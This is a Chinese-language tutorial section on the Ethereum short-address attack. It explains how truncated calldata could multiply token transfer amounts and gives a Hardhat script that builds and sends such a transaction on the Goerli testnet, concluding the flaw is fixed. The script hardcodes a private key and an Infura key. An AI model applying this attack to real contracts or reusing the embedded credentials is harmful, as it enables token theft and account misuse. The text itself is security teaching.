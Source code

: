 

# 第24节：安全事故14-短地址攻击

如果传入的 to 是末端缺省的短地址，EVM 会将后面字节补足地址，而最后的 value 值不足则用 0 填充，导致实际转出的代币数值倍增，在执行transfer函数时，原型如下：

```sh
function transfer(address _to, uint256 _value) returns (bool success)`
```

在正常情况下，会给EVM传入136位的字节码（不包含0x），示例如下：

```sh
a9059cbb000000000000000000000000490e588126207a8132c8e002c8554e19cb380b7a000000000000000000000000000000000000000000000000000000003430bca1
```

但是，如果我们选择的_to地址后面正好有几个0（假设：3个0），而我们刻意将这3个0去掉，那么EVM会自动使用后面的 `_value`值的高位0对这缺失的3个0进行补位，同时EVM也会在`_value`后面进行再次3个补零，从而保证136位字节码完整，而这种机制导致的结果就是：原本value是1的时候，从后面补三个零，将value变成了1000，这相当于转账的值放大了1000倍（10^3）。



## 代码验证

```js
import { ethers } from "hardhat";

async function main() {
  // 0xEAd54777D54C2C1bE1458E749fDfB5d654458309
  const senderPrivateKey = "0xa7b0f6c4cddc5c818655f5c0eb9e42f803dcc400ec284521e9092e8b243473c3"
  const provider_default = new ethers.providers.JsonRpcProvider("https://goerli.infura.io/v3/9aa3d95b3bc440fa88ea12eaa4456161");

  let sender = new ethers.Wallet(senderPrivateKey, provider_default)
  // 获取地址，与hardhat原生的不一样
  let senderAddr = await sender.getAddress()

  // 提前转入足量的eth和token
  let balance = await sender.getBalance()
  console.log('balance Of Ether: ' + balance, ', sender:', senderAddr)

  const contractAddr = "0x11Fe617f76aC652F995E7BA0fE4001F741e6d003"

  // 这里要加上signer
  let contractInstance = await ethers.getContractAt("Test", contractAddr, sender)
  console.log('contractInstance:', contractInstance.address);
  console.log("balance of sender:", await contractInstance.BalanceOf(senderAddr))

  //1. 构造攻击bytecode
  let transferToCode = contractInstance.interface.encodeFunctionData("transferTo", ["0xdfca6234eb09125632f8f3c71bf8733073b7cd00", 123])
  // 0x2ccb1b30000000000000000000000000dfca6234eb09125632f8f3c71bf8733073b7cd00000000000000000000000000000000000000000000000000000000000000007b
  // 0x2ccb1b30000000000000000000000000dfca6234eb09125632f8f3c71bf8733073b7cd000000000000000000000000000000000000000000000000000000000000007b, 剪掉两个0
  console.log('transferToCode:', transferToCode);

  // 2. 发起攻击 
  const tx = {
    // data: '0x2ccb1b30000000000000000000000000dfca6234eb09125632f8f3c71bf8733073b7cd000000000000000000000000000000000000000000000000000000000000007b', //invalid data
    data: '0x2ccb1b30000000000000000000000000dfca6234eb09125632f8f3c71bf8733073b7cd00000000000000000000000000000000000000000000000000000000000000007b',  // valid data
    nonce: 1, //你发送交易的帐号的最后一笔交易的 nonce + 1
    gasLimit: '0x2dc6c0',
    gasPrice: '0x2540be400',
    value: '0x0',
    to: contractAddr
  }

  let signedTx = await sender.signTransaction(tx)
  console.log('signedTx:', signedTx);

  let res = await sender.sendTransaction(tx)
  console.log("tx hash:", res.hash);
}

// We recommend this pattern to be able to use async/await everywhere
// and properly handle errors.
main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});

```



## 总结：EVM已经修复了

1. 使用无效的data时，交易失败: https://goerli.etherscan.io/tx/0xd1efe66ce840bd9e6ecc4aabf54bcde2e20fd32c412377f8ff022f3407a0e2a6
2. 使用有效的data时，交易成功: https://goerli.etherscan.io/tx/0x306b4f7713a3ea31b926242f5b6e5b8b1194e5f0316cf94b4b64ec80326eec8b*



## 参考链接

1. https://www.anquanke.com/post/id/159453
2. https://www.freebuf.com/articles/network/247191.html